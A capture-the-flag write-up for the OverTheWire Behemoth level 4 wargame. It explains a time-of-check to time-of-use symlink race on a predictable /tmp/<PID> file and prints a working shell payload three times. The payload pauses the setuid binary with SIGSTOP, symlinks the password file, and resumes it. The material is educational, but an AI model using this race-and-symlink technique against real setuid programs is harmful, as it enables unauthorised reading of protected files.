

# Behemoth Level - 4

This is an elaborate each level oriented write-up for the Narnia wargame from OverTheWire.org. These challenges provide invaluable hands-on learning experiences in cybersecurity and exploitation techniques. If you find these resources helpful, please consider supporting the OverTheWire team who create and maintain these educational platforms—they're doing important work making security education accessible to everyone.

**`Donate at:`** [https://overthewire.org/information/donate.html](https://overthewire.org/information/donate.html)

---

**`Author:`** Jinay Shah

**`Tools Used:`**

- ltrace
- gdb

---

# TL;DR

**Vulnerability:**

**TOCTOU (Time-of-Check to Time-of-Use) race condition combined with symlink abuse** on a predictable temporary file path.

The program:

- Constructs a filename using `getpid()`
- Reads from `/tmp/<PID>`
- Trusts `/tmp`
- Does not check for symlinks or pre-existing files

**Core Concept:**

**Predictable filename + signal-based process control = reliable privilege escalation**

By freezing the process mid-execution, the attacker gains deterministic control over the filesystem state before the vulnerable file access occurs.

**Methodology:**

1. **Binary Behavior Analysis**
    - Observed the program attempts to read `/tmp/<number>`
    - Identified filename derivation via `getpid()` in GDB
    - Confirmed no randomness (`mkstemp`, permissions, or checks)
2. **Race Elimination**
    - Executed binary in background to capture PID
    - Used `SIGSTOP` to freeze execution at kernel level
    - Removed timing uncertainty entirely
3. **Filesystem Manipulation**
    - Created a symbolic link:
        
        ```
        /tmp/<PID> → /etc/behemoth_pass/behemoth5
        ```
        
    - Exploited blind trust in `/tmp` and filename
4. **Execution Resumption**
    - Resumed the process with `SIGCONT`
    - Binary unknowingly opened the password file
    - Contents printed to stdout under elevated privileges

**Final Working Payload:**

```
/behemoth/behemoth4 &
ProcessID=$!
kill -STOP$ProcessID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$ProcessID
kill -CONT$ProcessID
```

**Result:**

Password for `behemoth5` disclosed via privileged file read.

**Learnings**

- `/tmp` is not safe by default
- Predictable filenames are vulnerabilities, not conveniences
- TOCTOU bugs become trivial when timing is eliminated
- Signals (`SIGSTOP` / `SIGCONT`) are powerful exploitation tools
- Not all exploitation requires memory corruption — **logic flaws are often cleaner and more reliable**

> Behemoth Level-4 teaches that control beats speed.
If you can pause the program, the race is already won.
> 

---

## Level info:

There is no information for this level, intentionally. 

[ It will remain so for all the next stages as well of this wargame series ]

---

## Solution:

Let’s begin with normal execution of our **`./behemoth4`** script and then we will see as to how it behaves:



So essentially the program tries to read **`/tmp/21`** and if it fails to do so, it exits with “PID not found!”.

Another interesting behavior:


See every time we run it, the value increases by 2 so it goes like:

**`/tmp/21`** → **`/tmp23` → `/tmp/25`** →  **`/tmp/27`** and so on.

Okay now then we can try linking the file as in we did with behemoth level 2 and allow this program to execute that instead of **`/tmp/number` :**

```
cat /etc/behemoth_pass/behemoth5 -> Stores the password for the next level
```

I don't think this patterns are generated randomly though, allow me to analyze this in gdb first actually:


Pay attention to this line:

**`0x08049202 <+28>:    call   0x8049070 getpid@plt`**

This function gets the process ID of the program and executes that in the background.

Let’s navigate to a temporary directory and build a payload script therein:


So now we can develop a script to exploit the same, logic flow is simple:

```
/behemoth/behemoth4 &
ProcessID=$!
kill -STOP $ProcessID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$ProcessID
kill -CONT $ProcessID
```

**`/behemoth/behemoth4 &`**

- Runs **`behemoth4`** in the background
- Shell immediately returns control
- The binary is now executing concurrently with your shell
    
    *Why this matters:*
    
    - We want to interfere mid-execution, not after it finishes.

**`ProcessID=$!`**

- **`$!`** = PID of the most recent background process
- We now know the exact PID of **`behemoth4`**
    
    *This is critical because:*
    
    - The vulnerable program uses its own PID to build a filename
    - Example inside the binary (conceptual):

```c
sprintf(path,"/tmp/%d", getpid());
```

Predictable. No randomness. No mkstemp.

**`kill -STOP $ProcessID`**

- Sends **`SIGSTOP`**
- Pauses the process immediately
- Kernel-level stop — cannot be ignored or handled
    
    *Why this is powerful:*
    
    - The process is now frozen before it opens or reads its temp file
    - we get a perfect window to manipulate the filesystem

This defeats timing uncertainty completely.

**`ln -s /etc/behemoth_pass/behemoth5 /tmp/$ProcessID`**

- We create a symbolic link
- Name exactly matches what the program expects:
    
    ```
    /tmp/<PID>
    ```
    
- Target:
    
    ```
    /etc/behemoth_pass/behemoth5
    ```
    
    At this point:
    
    ```
    /tmp/12345  ->  /etc/behemoth_pass/behemoth5
    ```
    
    *Why this works:*
    
    - **`behemoth4`**:
        - trusts **`/tmp`**
        - trusts filename derived from PID
    - does not check:
        - whether file already exists
        - whether it is a symlink
        - whether it points somewhere sensitive
    
    Classic TOCTOU + symlink vulnerability.
    

---

**`kill -CONT $ProcessID`**

- Sends **`SIGCONT`**
- Process resumes execution
- Continues as if nothing happened

Now the key moment:

**What `behemoth4` does next- Internally (simplified logic):**

```c
char path[64];
sprintf(path,"/tmp/%d", getpid());

fd = fopen(path,"r");
fgets(buffer,100, fd);
puts(buffer);
```

But because we intervened:

```
/tmp/<PID>  ->  /etc/behemoth_pass/behemoth5
```

So the program unknowingly does:

```c
fopen("/etc/behemoth_pass/behemoth5","r");
```

Privilege escalation via file read:

- Binary runs as `behemoth5`
- Kernel enforces permissions
- Program reads the password file *for you*
- Prints it to stdout

**FINAL WORKING PAYLOAD:**

```
/behemoth/behemoth4 &
ProcessID=$!
kill -STOP $ProcessID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$ProcessID
kill -CONT $ProcessID
```

And we get the password for next level:


---

## References:

1. YouTube [HMCyberAcademy]:
    
    [https://www.youtube.com/watch?v=H6JTwwKHkvE](https://www.youtube.com/watch?v=H6JTwwKHkvE&t=3520s)
    

---
